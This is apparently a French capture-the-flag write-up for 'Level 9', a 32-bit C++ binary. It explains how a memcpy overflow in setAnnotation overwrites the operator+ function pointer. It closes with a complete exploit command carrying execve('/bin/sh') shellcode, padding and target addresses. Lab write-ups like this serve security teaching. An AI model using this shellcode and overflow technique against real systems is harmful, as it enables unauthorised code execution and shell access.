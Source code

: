 ## Level 9

En déssasemblant le binaire, on remarque que le code est en c++, à cause du mangling des fonctions.

Le binaire verifie dans un premier temps qu'il y a au moins un argument. Grace a l'utilitaire c++filt, nous pouvons retrouver les appels effectués.

c++filt -n "_Znwj" nous permet de reveler un premier appel a operator new qui permet d'allouer de la memoire.

L'appel ici aloue 0x6c, soit 108 bytes. La classe crée par l'allocation prends donc 108 bytes d'espace memoire.

c++filt -n "_ZN1NC1Ei" nous revele un appel a N::N(int nbr)

Cet appel appelle la fonction N de la classe N, son constructeur donc. Ce contructeur prends prends un int en paramettre, qui est assigné dans la classe a une variable.

Mis bout a bout, ces instructions se résument a créer une nouvelle instance de la classe N en passant en paramettre un int assigné.

La classe N contient trois autres fonctions: un overload d'operateur rhs pour le +, un autre pour le moins, et enfin setAnnotation. 

setAnnotation nous interesse particulierement car il s'agit d'un memcopy de la taille du strlen de av[1], dans le buffer Annotation de l'objet ciblé.

Cette fonction setAnnotation est appelée pour l'objet five.

On observe également un pointeur sur fonction qui est appellé a la fin du code. Cet appel est causé par l'addition de five + six, qui dans les fait appelle la fonction overloadée sur +. 

Pour réaliser notre exploit, nous allons donc remplacer l'adresse de la fonction overloadée par l'adresse de notre choix grace au memcpy(), et la faire pointer sur un shellcode.

On essaye de le faire segfault, et on y arrive avec une entrée de plus de 108 bytes.

![image](https://user-images.githubusercontent.com/29956389/89921241-b8b06c00-dbfd-11ea-96d3-85b5285a8c16.png)

Observons ou exactement le segfault se produit:

![image](https://user-images.githubusercontent.com/29956389/89924033-bc45f200-dc01-11ea-8464-47a4d8547077.png)

Logiquement, en revenant de la fonction qui fait l'appel a `memcpy()`, a
l'instruction:

`=> 0x08048682 <+142>:   mov    edx,DWORD PTR [eax]`

##### Analysons a présent ce qui se passe en mémoire:

On va placer un premier breakpoint avant l'appel a `memcpy()`.

![image](https://user-images.githubusercontent.com/29956389/89921779-6a4f9d00-dbfe-11ea-9fd2-3bbcc8b67065.png)

Puis un second, avant l'instruction `0x08048682 <+142>`. (L'instruction qui segfault)

![image](https://user-images.githubusercontent.com/29956389/89922513-6e2fef00-dbff-11ea-87ec-6a32def979d2.png)

Observons a présent les arguments passé a `memcpy()`

La destination:

![image](https://user-images.githubusercontent.com/29956389/89924553-7b9aa880-dc02-11ea-8917-befe848f6ea5.png)

La source :

![image](https://user-images.githubusercontent.com/29956389/89924594-88b79780-dc02-11ea-8646-f284151f7121.png)

Allons plus loin dans l'analyse de la destination:

![image](https://user-images.githubusercontent.com/29956389/89924810-d16f5080-dc02-11ea-8b1e-dfa19d36a0f8.png)

Voila donc la source su segfault, en dépassant, nous réécrivons sur l'adresse de la fonction operator+. 

Continuons donc jusqu'au prochain breakpoint, et regardont l'opération:

`=> 0x08048682 <+142>:   mov    edx,DWORD PTR [eax]`

![image](https://user-images.githubusercontent.com/29956389/89925747-1e075b80-dc04-11ea-8de5-72ee12931235.png)

En essayant de metrre `$EAX (0x42424242)` dans `$EDX`, le programme segfault car cet espace mémoire n'est pas valide. C'est donc ici que nous pouvont inserer une adresse choisis, pour rediriger l'execution. (`call edx` est appellé trois instructions plus loin). 

On essaye alors d'y mettre l'adresse de notre string (l'adresse destination du `memcpy()` et non l'adresse de l'argument de la stack).

On rajoute également un breakpoint avant l'instruction `=> 0x08048693 <+159>:   call   edx`

![image](https://user-images.githubusercontent.com/29956389/89927408-8d7e4a80-dc06-11ea-871d-8f7d54073e4f.png)

Maintenant que nous avons reussi a affecter `$EDX`, l'instruction `call` essaye de executer a cette adresse. (Car `call` n'est qu'un alias pour `push eip, jmp 0xadresse`).

Il faut donc maintenant, faire pointer `$EDX` vers une adresse valide, et c'est la que nous allons insérer notre shellcode. Ce qui nous donne:

`[Adresse de notre shellcode] + [SHELLCODE] + [Remplissage] + [Adresse de notre string]`.

Soit,

`[4 Bytes] + [28 Bytes de shellcode] + [76 (108 - 32) Bytes de remplissage] + [4 Bytes]`.

![image](https://user-images.githubusercontent.com/29956389/89928623-6294f600-dc08-11ea-8f82-1ec2b0c5eeec.png)

`./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + "B"*76 + "\x0c\xa0\x04\x08"')`

Et mercee.
